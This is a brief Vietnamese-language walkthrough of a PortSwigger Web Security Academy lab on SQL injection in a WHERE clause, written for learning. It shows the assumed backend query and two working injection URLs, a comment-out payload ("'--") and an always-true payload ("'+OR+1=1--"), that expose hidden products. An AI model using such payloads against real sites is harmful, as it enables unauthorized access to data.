


## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

1. Nhận thấy khi click vào một category bất kỳ ví dụ khi click vào ``Accessories`` url của nó sẽ là ``https://0a3b00c7042ef0e8c0526dd100380010.web-security-academy.net/filter?category=Accessories`` câu query của nó sẽ là :
    ``SELECT * FROM products WHERE category = 'Accessories' AND released = 1``

2. Để hiển thị toàn bộ các sản phẩm đã release và chưa release ta sẽ comment để xóa đoạn query ``AND released = 1``, từ đó url chuyển thành 
    ``https://0a3b00c7042ef0e8c0526dd100380010.web-security-academy.net/filter?category=Accessories'--``

3. Để hiện thị toàn bộ sản phẩm của cả các category khác, thêm vào đoạn query để điều kiện sau WHERE luôn đúng
    ``https://0a3b00c7042ef0e8c0526dd100380010.web-security-academy.net/filter?category=Accessories'+OR+1=1--``

